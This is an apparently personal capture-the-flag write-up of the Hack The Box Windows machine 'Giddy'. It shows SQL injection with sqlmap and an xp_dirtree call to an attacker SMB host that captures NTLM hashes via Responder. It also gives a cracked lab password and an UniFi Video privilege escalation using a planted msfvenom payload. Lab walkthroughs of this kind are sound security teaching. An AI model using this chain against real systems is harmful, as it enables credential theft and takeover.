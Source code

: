 ```yaml
---
title: "Hack The Box - Giddy"
tags: [windows,medium,mssql , sqli , sqlmap , os-shell , dirtree , responder , unifivideo]
categories: HackTheBox-Windows
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%201.png)

## Enumerating Web

⇒ We found 2 directories :

[http://10.10.10.104/remote](http://10.10.10.104/remote)

[http://10.10.10.104/mvc/](http://10.10.10.104/mvc/)

**⇒ Enumerating http://10.10.10.104/remote/**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%202.png)

→ We have an powershell web access login page. We dont have any credentials...

**⇒ Enumerating http://10.10.10.104/mvc/**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%203.png)

→ It's vulnerable to SQLi :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%204.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%205.png)

## Performing SQL injection

⇒ Running SQLmap

→ We find the following databases.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%206.png)

→ Sadly we didnt find anything useful in the databases.

⇒  We see that its MSSQL so we can do good old dirtree to steal user hash

→ Starting responder :

**`responder -i tun0`**

→ Getting sql-shell :

**`sqlmap -r vuln.req --batch --sql-shell`**

→ Executing command :

**`EXEC master.sys.xp_dirtree '\\10.10.14.4\enox'`**

→ Getting dem hashes 😎

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%207.png)

→ Cracking the hash :

**Stacy : xNnWo6272k7x**

⇒ Lets go back to the powershell web access page and login with these credentials

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%208.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%209.png)

## Privilege Escalation

→ We see **`unifivideo`** in Stacy user Documents :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%2010.png)

→ Found an exploit : [https://www.exploit-db.com/exploits/43390](https://www.exploit-db.com/exploits/43390)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%2011.png)

⇒ So looks like we can create msfvenom shell, name it taskkill.exe and place it in the folder and then just start the service.

→ There's Windows Defender running on the box. Creating shell using metasploit :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%2012.png)

→ Placing it in `C:\ProgramData\unifi-video\`

→ Restarting the service :

**`stop-service -name UniFivideoservice`**

**`start-service unifivideoservice`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Giddy%20Box%209f34e85c33034d68b41afb90df49686f/Untitled%2013.png)

